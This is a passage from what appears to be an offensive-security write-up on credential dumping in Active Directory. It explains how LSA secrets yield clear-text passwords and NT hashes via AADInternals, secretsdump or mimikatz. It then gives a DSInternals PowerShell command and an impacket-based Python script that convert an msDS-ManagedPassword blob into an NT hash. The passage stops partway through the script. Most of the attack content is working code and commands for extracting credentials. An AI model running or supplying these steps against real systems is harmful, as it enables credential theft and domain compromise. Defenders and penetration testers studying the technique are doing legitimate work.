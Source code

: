 ![ffaf1daa68fdaaeb195ed6154b2d3318.png](/_resources/ffaf1daa68fdaaeb195ed6154b2d3318.png)

We have both the clear-text password (as long as our console can read UTF-16) and the NT hash in the `MD4Txt` field.

If we don't want to install AADInternals on the host we can use other LSA secrets dumping options like impacket's secretsdump and mimikatz, but we won't be able to see the account they belong to and we have to make do with the hex representation:

![d9f318191f2159e68ef476a9ec3bae72.png](/_resources/d9f318191f2159e68ef476a9ec3bae72.png)

We can however still use DSInternals to convert the blob to an NT hash, with a little string manipulation. First separate every hexadecimal byte with a comma and convert every byte to decimal notation, then run this command and we'll have our NT hash:
```powershell
(ConvertFrom-ADManagedPasswordBlob <BLOB>).SecureCurrentPassword | ConvertTo-NTHash
```

![28e2f9f78ecba43cc2cc0ffdb4ec15a8.png](/_resources/28e2f9f78ecba43cc2cc0ffdb4ec15a8.png)

Or, if we want to stick to Linux, run this Python script with your decimal blob to get the same result, it's just a slightly edited version of [Alberto Solino](https://github.com/fortra/impacket/pull/770)'s PoC':
```python
from impacket.structure import Structure

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]

relayxOutput = (<BLOB>)

blob = MSDS_MANAGEDPASSWORD_BLOB()
```